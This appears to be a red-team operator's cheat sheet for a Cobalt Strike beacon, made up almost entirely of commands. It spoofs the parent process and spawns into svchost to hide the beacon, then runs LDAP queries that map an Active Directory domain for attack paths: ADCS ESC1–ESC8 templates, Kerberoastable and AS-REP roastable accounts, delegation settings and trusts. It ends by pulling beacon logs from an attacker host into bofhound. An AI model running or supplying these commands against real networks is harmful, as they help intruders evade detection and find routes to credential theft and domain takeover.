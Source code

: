 
Set PPID to svchost - med-integ
```powershell
ppid 6424 
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
--dn DC=contoso,DC=enclave
```

Domain, users, groups, OUs, and GPOs.
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```

Trusts
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

ADCS + ESC1–ESC8
```powershell
ldapsearch (|(objectClass=pKIEnrollmentService)(objectClass=pKICertificateTemplate)(objectClass=msPKI-Enterprise-Oid)) *,ntsecuritydescriptor

ldapsearch (objectClass=pKICertificateTemplate) --attributes cn,msPKI-Enrollment-Flag,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag,msPKI-RA-Signature,msPKI-Application-Policies,msPKI-Subject-Name-Flag,ntSecurityDescriptor
```

Kerberoastable Users
```
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

AS-REP Roastable Users
```
ldapsearch "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes samAccountName,userAccountControl,objectsid,ntsecuritydescriptor
```

Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```
---

Bofhound
```powershell
scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

bofhound -i logs/
```

Search single SID
```powershell
ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601)

ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601) --dn DC=contoso,DC=enclave
```
